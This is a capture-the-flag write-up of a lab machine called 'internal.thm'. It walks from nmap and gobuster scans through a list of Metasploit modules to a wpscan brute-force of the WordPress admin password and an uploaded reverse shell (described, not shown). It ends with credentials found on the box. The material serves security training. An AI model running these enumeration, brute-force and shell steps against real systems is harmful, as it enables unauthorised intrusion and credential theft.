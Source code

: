 nmap result(./nmap_result)  
	```nmap -v -sV -p1-65535 $TARGET_IP | tee nmap_result```

	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))


	
gobuster result(./gobuster_on_80)  
	```gobuster dir -u http://$TARGET_IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt | tee gobuster_on_80```

	/blog                 (Status: 301) [Size: 311] [--> http://10.10.88.179/blog/]
	/wordpress            (Status: 301) [Size: 316] [--> http://10.10.88.179/wordpress/]
	/javascript           (Status: 301) [Size: 317] [--> http://10.10.88.179/javascript/]
	/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.88.179/phpmyadmin/]
	/phpmyadmin/index.php            (Status: 200) [Size: 10531]
	/phpmyadmin/templates            (Status: 403) [Size: 277]  
	/phpmyadmin/themes.php           (Status: 200) [Size: 10532]
	/phpmyadmin/themes               (Status: 301) [Size: 324] [--> http://10.10.88.179/phpmyadmin/themes/]
	/phpmyadmin/doc                  (Status: 301) [Size: 321] [--> http://10.10.88.179/phpmyadmin/doc/]   
	/phpmyadmin/license.php          (Status: 200) [Size: 10533]                                           
	/phpmyadmin/navigation.php       (Status: 200) [Size: 10536]                                           
	/phpmyadmin/js                   (Status: 301) [Size: 320] [--> http://10.10.88.179/phpmyadmin/js/]    
	/phpmyadmin/logout.php           (Status: 200) [Size: 10532]                                           
	/phpmyadmin/libraries            (Status: 403) [Size: 277]                                             
	/phpmyadmin/changelog.php        (Status: 200) [Size: 10535]                                           
	/phpmyadmin/url.php              (Status: 302) [Size: 0] [--> /phpmyadmin/]                            
	/phpmyadmin/export.php           (Status: 200) [Size: 10532]                                           
	/phpmyadmin/setup                (Status: 401) [Size: 459]                                             
	/phpmyadmin/sql.php              (Status: 200) [Size: 10529]                                           
	/phpmyadmin/sql                  (Status: 301) [Size: 321] [--> http://10.10.88.179/phpmyadmin/sql/]   
	/phpmyadmin/locale               (Status: 301) [Size: 324] [--> http://10.10.88.179/phpmyadmin/locale/]
	/phpmyadmin/import.php           (Status: 200) [Size: 10532] 
	
After examining /phpmyadmin, seemingly mysql is behind the site.  

SQLMap didn't find any parameter injectable.  

Tried every exploit on metasploit as follows, but they didn't work.   


	0  exploit/unix/webapp/phpmyadmin_config                 2009-03-24       excellent  No     PhpMyAdmin Config File Code Injection
	1  auxiliary/scanner/http/phpmyadmin_login                                normal     No     PhpMyAdmin Login Scanner
	2  post/linux/gather/phpmyadmin_credsteal                                 normal     No     Phpmyadmin credentials stealer
	3  auxiliary/admin/http/telpho10_credential_dump         2016-09-02       normal     No     Telpho10 Backup Credentials Dumper
	4  exploit/multi/http/zpanel_information_disclosure_rce  2014-01-30       excellent  No     Zpanel Remote Unauthenticated RCE
	5  exploit/multi/http/phpmyadmin_3522_backdoor           2012-09-25       normal     No     phpMyAdmin 3.5.2.2 server_sync.php Backdoor
	6  exploit/multi/http/phpmyadmin_lfi_rce                 2018-06-19       good       Yes    phpMyAdmin Authenticated Remote Code Execution
	7  exploit/multi/http/phpmyadmin_null_termination_exec   2016-06-23       excellent  Yes    phpMyAdmin Authenticated Remote Code Execution
	8  exploit/multi/http/phpmyadmin_preg_replace            2013-04-25       excellent  Yes    phpMyAdmin Authenticated Remote Code Execution via preg_replace()

Scanned $TARGET_IP/blog using wordpress scanning tool, wpscan  
	```wpscan --url 10.10.111.161/blog -e vp,u```  
	One user found: admin  

Using this info, bruteforced passwords  
	```wpscan --url 10.10.111.161/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50```  
	Password Cracked: Username: admin, Password: my2boys  

Modifyied /etc/hosts to help resolve name(internal.thm --> $TARGET_IP)  

Uploaded a reverse shell to wordpress, and got a reverse shell.  
Then, I found an interesting file in /opt directory.  
```
	$ cd /opt
	$ ls
	containerd
	wp-save.txt
	$ cat wp-save.txt
	Bill,

	Aubreanna needed these credentials for something later.  Let her know you have them and where they are.
```

	aubreanna:bubb13guM!@#123

